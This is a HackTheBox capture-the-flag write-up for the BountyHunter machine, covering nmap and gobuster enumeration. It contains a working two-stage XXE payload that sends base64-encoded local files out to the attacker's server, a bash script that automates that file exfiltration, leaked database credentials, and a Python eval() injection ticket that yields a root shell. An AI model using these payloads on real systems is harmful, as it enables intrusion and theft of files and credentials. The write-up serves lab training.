





+++
authors = ["Matt Johnson"]
title = 'HTB: BountyHunter Writeup'
date = '2021-11-20'
description = "Here's how to solve HackTheBox's BountyHunter."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's BountyHunter."
+++



# High-Level Information

Machine Name: BountyHunter

IP Address: 10.10.11.100

Difficulty: Medium

Summary: HackTheBox's BountyHunter was an excellent easy-intermediate machine that allows one to learn about XML External Entity vulnerabilities, LFI vulnerabilities, and the dangers of trusting unsanitized input in custom code. The initial foothold is gained by enumerating the website on port 80, which contains a bounty report system that utilizes encoded `XMLHttpRequests`. Due to a PHP misconfiguration and a lack of input sanitization, this allows for the remote enumeration of the victim filesystem. This enumeration process was aided by a script that I created to automate the more tedious parts of the process and present internal files in a fully decoded format. During enumeration, a `db.php` file containing hardcoded database credentials was discovered and subsequently determined to also grant access to the `development` user via SSH. From there, a note left by one of the developers identifies a script that needs to be tested, which the `development` user is able to run as `root`. The script determines whether a given ticket's formatting is valid. Due to poor input validation and the script's dangerous use of Python's `eval()` function, the `development` user can execute code as `root` utilizing a specially crafted ticket.

Tools Used: nmap, BurpSuite, gobuster, [php\_xxe\_lfi (custom)](https://github.com/infosecmatt/php_xxe_lfi)

# Initial Foothold

As always, I began by running Nmap:

```shell
┌──(kali@kali)-[~/htb/bountyhunter]
└─$ nmap -sC -sV -p- -oA nmap/nmap 10.10.11.100
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 07:58 EDT
Nmap scan report for 10.10.11.100
Host is up (0.061s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.43 seconds
```

Given that only SSH and a web server were open, I spun up a gobuster scan in the background and began to manually enumerate the website:

 

The initial gobuster scan led to the discovery of several navigable folders within the web application:

```shell
┌──(kali@kali)-[~/htb/bountyhunter]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u http://10.10.11.100 | tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/25 08:14:09 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]    
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/server-status        (Status: 403) [Size: 277]                                     

===============================================================
2021/08/25 08:16:07 Finished
===============================================================
```

Within the `/resources` directory was an especially interesting file, `README.txt`:

 

While this didn't give me any immediate attack vector, the information contained within the file would prove useful later. Additionally, navigating those web directories helped signal that I should probably perform further enumeration of `php` and `txt` files. I ran an additional gobuster scan to see if searching for those extensions gave further information.

```shell
┌──(kali@kali)-[~/htb/bountyhunter]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u http://10.10.11.100/ -x php,txt | tee gobuster-files-dir.out  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/08/26 09:25:27 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 25169]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]                                  
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]   
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/db.php               (Status: 200) [Size: 0]                                       
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]       
/server-status        (Status: 403) [Size: 277]                                     

===============================================================
2021/08/26 09:30:14 Finished
===============================================================
```

During additional manual enumeration of the website, a portal and Bug Report System, both of which were in beta, were identified. Even though the Bug Report System was not fully implemented, utilizing BurpSuite helped lay bare a potential path to either LFI or RCE via an XXE vulnerability.

 

As demonstrated above, the data was being transmitted as XML with both URL and base64 encoding (which can be decoded in BurpSuite using `Ctrl+Shift+U` and `Ctrl+Shift+B`, respectively). Using any sort of structured data format (e.g., JSON, XML) to transmit information is at the core of many common web-based services, but the deserialization process can result in vulnerabilities. I did a bit of PHP-specific research and found some excellent writeups that helped formulate an attack path (References: [1](https://sensepost.com/blog/2014/revisting-xxe-and-abusing-protocols/) [2](https://portswigger.net/web-security/xxe) [3](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)).

I replaced the original payload with the first of a multistage chain of requests that would eventually send base64-encoded files on the remote machine as the parameter of a `GET` request. In addition, I set up a python HTTP server to deliver the second stage of the payload and receive the base64-encoded files. The first payload looked as follows:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.10/stage2.xml">
%sp;
%param1;
]>
<title>&exfil;</title>
```

The first payload is designed to reach back to my machine and grab the second stage of the payload, which is as follows:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.10/stage2.xml?%data;'>">
```

For this chain to work, I did multiple things. First, I set up an HTTP server using python's `http.server` module. Then, to deliver the first payload I inserted the XML into the `data` parameter in the initial `POST` request, base64 and URL-encoded it (using `Ctrl+B` and `Ctrl+U` within BurpSuite, respectively), and sent it.

```shell
┌──(kali@kali)-[~/htb/bountyhunter]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.100 - - [25/Aug/2021 11:54:25] "GET /stage2.xml HTTP/1.0" 200 -
10.10.11.100 - - [25/Aug/2021 11:54:26] "GET /stage2.xml?cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4OjEwMjoxMDQ6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbiwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDY6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDQ6MTEwOjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnRzczp4OjEwNjoxMTE6VFBNIHNvZnR3YXJlIHN0YWNrLCwsOi92YXIvbGliL3RwbTovYmluL2ZhbHNlCnV1aWRkOng6MTA3OjExMjo6L3J1bi91dWlkZDovdXNyL3NiaW4vbm9sb2dpbgp0Y3BkdW1wOng6MTA4OjExMzo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCmxhbmRzY2FwZTp4OjEwOToxMTU6Oi92YXIvbGliL2xhbmRzY2FwZTovdXNyL3NiaW4vbm9sb2dpbgpwb2xsaW5hdGU6eDoxMTA6MTo6L3Zhci9jYWNoZS9wb2xsaW5hdGU6L2Jpbi9mYWxzZQpzc2hkOng6MTExOjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1jb3JlZHVtcDp4Ojk5OTo5OTk6c3lzdGVtZCBDb3JlIER1bXBlcjovOi91c3Ivc2Jpbi9ub2xvZ2luCmRldmVsb3BtZW50Ong6MTAwMDoxMDAwOkRldmVsb3BtZW50Oi9ob21lL2RldmVsb3BtZW50Oi9iaW4vYmFzaApseGQ6eDo5OTg6MTAwOjovdmFyL3NuYXAvbHhkL2NvbW1vbi9seGQ6L2Jpbi9mYWxzZQp1c2JtdXg6eDoxMTI6NDY6dXNibXV4IGRhZW1vbiwsLDovdmFyL2xpYi91c2JtdXg6L3Vzci9zYmluL25vbG9naW4K HTTP/1.0" 200 -
```

Sending the requests yields an almost immediate request for the second stage of the payload and shortly thereafter another request that includes a base64-encoded `/etc/passwd` file.

This was a pretty ugly and tedious process, so the natural next step was to spend an hour writing a script for something that would've taken 20 minutes to do manually. _Maximum efficiency_.

```bash
#!/bin/bash

function initialize_py_server { 
    mkdir -p {./php_xxe_lfi/http_logs,./php_xxe_lfi/exfil}
    echo 'Initializing Python HTTP server...'
    python3 -m http.server 80 &> ./php_xxe_lfi/http_logs/requests.log &
    RESULT=$?
    if [ $RESULT -eq 0 ]; then
        sleep 0.5
        echo 'HTTP server successfully started on port 80.'
    else
            echo 'HTTP server did not start. Exiting gracefully...'
            kill_py_server
            exit
    fi
}

function kill_py_server {
        python_processes=$(ps aux | grep 'python3 -m http.server 80' | grep -v 'grep' | awk '{print $2}')
        for i in $python_processes
        do
                sudo kill $i
        done
}

get_file() { 

    stage2=$(echo $'\n">')
    if [ "$1" == "" ]
    then
        echo "No file requested."
    else
        echo $stage2 > lfi-stage2.xml
        curl -i -s -k -X $'POST' \
            -H $'Host: 10.10.11.100' \
            -H $'Content-Length: 223' \
            -H $'Accept: */*' \
            -H $'X-Requested-With: XMLHttpRequest' \
            -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36' \
            -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
            -H $'Origin: http://10.10.11.100' \
            -H $'Referer: http://10.10.11.100/log_submit.php' \
            -H $'Accept-Encoding: gzip, deflate' \
            -H $'Accept-Language: en-US,en;q=0.9' \
            -H $'Connection: close' \
            --data-binary $'data=PD94bWwgdmVyc2lvbj0iMS4wIiA/Pg0KPCFET0NUWVBFIHIgWw0KPCFFTEVNRU5UIHIgQU5ZID4NCjwhRU5USVRZICUgc3AgU1lTVEVNICJodHRwOi8vMTAuMTAuMTQuMTAvbGZpLXN0YWdlMi54bWwiPg0KJXNwOw0KJXBhcmFtMTsNCl0%2bDQo8dGl0bGU%2bJmV4ZmlsOzwvdGl0bGU%2b' \
            $'http://10.10.11.100/tracker_diRbPr00f314.php' &> /dev/null
    fi
}

function main { 
#kill http server if currently running on port 80
kill_py_server
initialize_py_server
while true
do
    echo -n "Enter desired file: "
    read FILENAME
    if [ "$FILENAME" == "exit" ];
    then
        echo "Goodbye..."
        kill_py_server
        exit
    else
        get_file $FILENAME
        cat ./php_xxe_lfi/http_logs/requests.log | tail -1 | awk -F"?" '{print $2}' | awk '{print $1}' | base64 -d
    fi
done
}

main
```

The bash script is in many ways pretty ugly, but it simply utilizes curl to send the first stage of the payload exactly as it was done with BurpSuite and dynamically generates the second stage of the payload based on what the user requests it to grab. The response is decoded in a way such that the user never sees the base64, rather just a neat plaintext output of the requested file.

```shell
┌──(kali@kali)-[~/htb/bountyhunter]
└─$ sudo ./get_file.sh                 
[sudo] password for kali: 
Initializing Python HTTP server...
HTTP server successfully started on port 80.
Enter desired file: /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
Enter desired file: exit
Goodbye...    


┌──(kali@kali)-[~/htb/bountyhunter]
└─$ 
```

With that done, I went back to the gobuster scans that were performed earlier and identified some things that warranted further enumeration. Namely, the `db.php` file seemed interesting. Using the above script, I pulled down the source code of the file and found credentials:

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Using that password as well as the custom `development` user identified during analysis of the `/etc/passwd` file, I was able to SSH into the machine.

# Privilege Escalation

Upon login, the creator of the machine barely attempts to obfuscate the privilege escalation path, leaving a descriptive file in the `development` user's home directory called `contract.txt`. Given the reference to permissions, I ran the `sudo -l` command, which showed that the `development` user was able to run a specific python script as `root`. The commands' and script's contents were as follows:

```shell
development@bountyhunter:~$ ls
contract.txt  user.txt
development@bountyhunter:~$ cat contract.txt 
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
development@bountyhunter:~$
```

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber &gt; 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The script itself is relatively mundane, it simply determines whether a given ticket is valid based on its contents. What is, however, interesting about the file is its use of Python's `eval()` function, which could allow for code execution assuming the inputs are not properly sanitized. In this case, it appears that may be the case, assuming all of the prerequisite checks pass. The key for exploiting this script is to create a perfectly valid Markdown file that passes all checks right up to the point of the script calling `eval()` and then injecting a system call. In my case, this is what was required:

```markdown
# Skytrain Inc
## Ticket to Nowhere
__Ticket Code:__
**109 + __import__('os').system('/bin/bash')#
```

Running the script with `sudo` permissions results in a shell as `root`.

```shell
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/home/development/privesc.md
Destination: Nowhere
root@bountyhunter:/home/development# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/home/development# wc -c /root/root.txt
33 /root/root.txt
root@bountyhunter:/home/development# 
```